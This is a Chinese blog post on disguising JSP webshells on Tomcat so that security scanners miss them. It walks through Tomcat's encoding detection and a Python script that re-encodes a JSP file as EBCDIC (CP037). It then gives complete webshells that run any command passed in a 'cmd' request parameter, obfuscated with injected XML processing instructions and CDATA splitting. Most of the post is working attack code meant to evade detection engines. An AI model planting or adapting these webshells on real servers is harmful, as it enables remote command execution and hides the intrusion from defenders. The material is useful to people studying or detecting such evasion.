


@Author：Y4tacker

# 一次jsp的奇异探索

## 写在前面

本篇没有能绕过某引擎，但因为觉得比较好玩，就分享给大家，觉得某天大家hvv或许能用到呢？

本篇文章是详细记录了自己从开始尝试到失败到成功的全过程，引入自己的思考过程，东西比较简单

在施展了一些奇妙神奇姿势后，我技穷了，在本打算躺平后突然想到之前我用过utf16编码jsp也是能成功解析，之后我又想支不支持一些其他的编码呢？

答案是yes，接着往下看

## 探索

在tomcat中的`org/apache/jasper/compiler/EncodingDetector`

这里把支持的编码都列出来了

```java
    private BomResult parseBom(byte[] b4, int count) {

        if (count < 2) {
            return new BomResult("UTF-8", 0);
        }

        // UTF-16, with BOM
        int b0 = b4[0] & 0xFF;
        int b1 = b4[1] & 0xFF;
        if (b0 == 0xFE && b1 == 0xFF) {
            // UTF-16, big-endian
            return new BomResult("UTF-16BE", 2);
        }
        if (b0 == 0xFF && b1 == 0xFE) {
            // UTF-16, little-endian
            return new BomResult("UTF-16LE", 2);
        }

        // default to UTF-8 if we don't have enough bytes to make a
        // good determination of the encoding
        if (count < 3) {
            return new BomResult("UTF-8", 0);
        }

        // UTF-8 with a BOM
        int b2 = b4[2] & 0xFF;
        if (b0 == 0xEF && b1 == 0xBB && b2 == 0xBF) {
            return new BomResult("UTF-8", 3);
        }

        // default to UTF-8 if we don't have enough bytes to make a
        // good determination of the encoding
        if (count < 4) {
            return new BomResult("UTF-8", 0);
        }

        // Other encodings. No BOM. Try and ID encoding.
        int b3 = b4[3] & 0xFF;
        if (b0 == 0x00 && b1 == 0x00 && b2 == 0x00 && b3 == 0x3C) {
            // UCS-4, big endian (1234)
            return new BomResult("ISO-10646-UCS-4", 0);
        }
        if (b0 == 0x3C && b1 == 0x00 && b2 == 0x00 && b3 == 0x00) {
            // UCS-4, little endian (4321)
            return new BomResult("ISO-10646-UCS-4", 0);
        }
        if (b0 == 0x00 && b1 == 0x00 && b2 == 0x3C && b3 == 0x00) {
            // UCS-4, unusual octet order (2143)
            // REVISIT: What should this be?
            return new BomResult("ISO-10646-UCS-4", 0);
        }
        if (b0 == 0x00 && b1 == 0x3C && b2 == 0x00 && b3 == 0x00) {
            // UCS-4, unusual octet order (3412)
            // REVISIT: What should this be?
            return new BomResult("ISO-10646-UCS-4", 0);
        }
        if (b0 == 0x00 && b1 == 0x3C && b2 == 0x00 && b3 == 0x3F) {
            // UTF-16, big-endian, no BOM
            // (or could turn out to be UCS-2...
            // REVISIT: What should this be?
            return new BomResult("UTF-16BE", 0);
        }
        if (b0 == 0x3C && b1 == 0x00 && b2 == 0x3F && b3 == 0x00) {
            // UTF-16, little-endian, no BOM
            // (or could turn out to be UCS-2...
            return new BomResult("UTF-16LE", 0);
        }
        if (b0 == 0x4C && b1 == 0x6F && b2 == 0xA7 && b3 == 0x94) {
            // EBCDIC
            // a la xerces1, return CP037 instead of EBCDIC here
            return new BomResult("CP037", 0);
        }

        // default encoding
        return new BomResult("UTF-8", 0);
    }

```

为了获得更多的在jsp中的乱码，这里我关注到了cp037

## 简单的尝试

掏出抠脚的python技术，一顿乱敲

```python
data = '''<%
    Runtime.getRuntime().exec("open -na Calculator");
%>'''.encode("cp037")

with open("y4tacker.jsp", "wb") as f:
    f.write(data)
```

心满意足的看着自己生成的看不懂的宝贝，这不赶紧拿到tomcat目录下试一试


哈？原封不动输出了，这时候意识到了我可能少了一些小细节



再回头去看，这前四个字节还有要求的哦

```java
if (b0 == 0x4C && b1 == 0x6F && b2 == 0xA7 && b3 == 0x94) {
            return new BomResult("CP037", 0);
}
```

简单的编程


看到了结果，`<?xm`要求是这个开头，很容易我想到了xml，很显然jsp支持xml格式编写


## 新的问题

这时候按照要求，我写出了新的代码，并按照上面的脚本转化编码格式

```jsp
<?xml version="1.0" encoding="cp037" ?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
          version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:directive.page import="java.io.*"/>
    <jsp:declaration>
    </jsp:declaration>
    <jsp:scriptlet>
Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
BufferedReader input = new BufferedReader(new InputStreamReader(p.getInputStream()));
String line = "";
while ((line = input.readLine()) != null) {
  out.write(line+"\n");
}
</jsp:scriptlet>
    <jsp:text>
    </jsp:text>
</jsp:root>
```

这次成功了，但是没能绕过某引擎不甘心


## 继续探索

猜测会不会是我的特征太明显了，这里我想有没有一些更骚的东西，后面发现处理不存在的XML元素会置空

得到最终

```jsp
<?xm?>
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page"
          version="1.2">
    <jsp:directive.page contentType="text/html"/>
    <jsp:directive.page import="java.io.*"/>
    <jsp:declaration>
    </jsp:declaration>
    <jsp:scriptlet>
Pro<?wtyn?>cess p = Run<?wtyn?>time.get<?wtyn?>Run<?wtyn?>ti<?wtyn?>me().exe<?wtyn?>c(request.getParameter("cmd"));
Buffer<?wtyn?>edRead<?wtyn?>er input = ne<?wtyn?>w Buff<?wtyn?>eredR<?wtyn?>eader(new InputSt<?foo?>ream<?wtyn?>Reader(p.getI<?wtyn?>nputSt<?foo?>ream()));
String line = "";
while ((l<?wtyn?>ine = input.read<?wtyn?>Line()) != null) {
  out.w<?wtyn?>rite(line+"\n");
}
</jsp:scriptlet>
    <jsp:text>
    </jsp:text>
</jsp:root>
```

编码为cp037后再试试，



也是成功执行了的

虽然这里也没有能绕过引擎，但未来如果遇到一些处理不好的引擎，说不定能大放光彩

PS：在xml当中还可以配合CDATA做更多混淆

```xml
String cmd = request.getPar<![CDATA[ameter]]>("shell");
```

